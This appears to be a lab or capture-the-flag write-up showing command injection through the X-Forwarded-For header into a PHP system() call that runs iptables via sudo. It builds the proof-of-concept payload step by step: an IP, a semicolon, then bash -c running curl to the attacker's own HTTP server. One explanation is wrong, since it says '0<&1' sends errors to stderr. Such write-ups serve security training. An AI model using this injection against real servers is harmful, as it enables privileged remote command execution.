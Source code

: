 > The HTTP X-Forwarded-For (XFF) request header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.

**But why is this dangerous?** I am so glad you asked!
Because the `X-Forwarded-For` header is controlled by the client, which means us as an attacker can insert arbitrary text. Without sanitization, that text gets concatenated into the `system()` call, and when `sudo` runs it, the injected command runs with elevated privileges.

### Crafting Our POC Payload: {#crafting-our-poc-payload}

For a simple POC we are going to use a curl command to grab the contents of a python http server we control.

#### Setup our Server: {#setup-our-server}

First of all lets setup our python http server.

```shell
python3 -m http.server 9000
```

#### Crafting The Malicious Payload: {#crafting-the-malicious-payload}

The vulnerable PHP code runs:

```php
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

Since `$ip` comes directly from the `X-Forwarded-For` header, we can inject extra commands after a valid IP address.

We want to run:
`curl http://[ourServer]:9000/POC`

As we are inserting our payload into the existing command string, we need to be very specific with our syntax.

1.  **Provide a valid IP address**:
    The PHP code is expecting an IP address, so we start with ours:
    `10.10.14.22`

2.  **Append a command separator**:
    We use the `;` operator to terminate the IP argument and start a new command:
    `10.10.14.22;`

3.  **Call bash to spawn a subshell**:
    Using `bash -c` allows us to run our payload inside a separate process for more control:
    `10.10.14.22; bash -c`

4.  **Add the actual curl command**:
    This is the command we want to execute:
    `10.10.14.22; bash -c "curl http://10.10.14.22:9000/POC"`

5.  **Redirect input to prevent hangs**:
    We send any errors to `stderr` using `0<&1` so the request doesn't hang if there’s a problem:
    `10.10.14.22; bash -c "curl http://10.10.14.22:9000/POC 0<&1"`

